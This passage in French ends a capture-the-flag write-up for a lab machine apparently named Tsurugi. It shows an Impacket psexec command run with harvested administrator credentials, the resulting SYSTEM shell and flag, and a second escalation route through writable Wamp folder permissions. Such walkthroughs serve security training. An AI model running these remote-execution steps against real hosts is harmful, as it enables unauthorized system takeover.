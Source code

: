 Tsurugi
-------

Le reste est très simple :  

```plain
$ PYTHONPATH=. python examples/psexec.py KATANA/administrator:mrlolixcobson87@10.1.1.52
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

[*] Requesting shares on 10.1.1.52.....
[*] Found writable share ADMIN$
[*] Uploading file dIFVZQlx.exe
[*] Opening SVCManager on 10.1.1.52.....
[*] Creating service XtmJ on 10.1.1.52.....
[*] Starting service XtmJ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17134.523]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>cd c:\users\administrator\desktop\

c:\Users\Administrator\Desktop>type root.txt
ac72d3e13e411fe53946a93642b3832b
```

Il y avait un autre vecteur d'attaque sur le système (mais qui devait nécessiter de pouvoir relancer un service) :  

```plain
c:\Users\www>type todo.txt
- Patch Wamp permissions
c:\Users\www>icacls c:\wamp64
wamp64 BUILTIN\Administrators:(I)(OI)(CI)(F)
       NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
       BUILTIN\Users:(I)(OI)(CI)(RX)
       NT AUTHORITY\Authenticated Users:(I)(M)
       NT AUTHORITY\Authenticated Users:(I)(OI)(CI)(IO)(M)

Successfully processed 1 files; Failed processing 0 files
```

Game over
---------

Un bon CTF bien réalisé avec ce qu'il faut de difficulté :)

*Published November 17 2020 at 14:19*
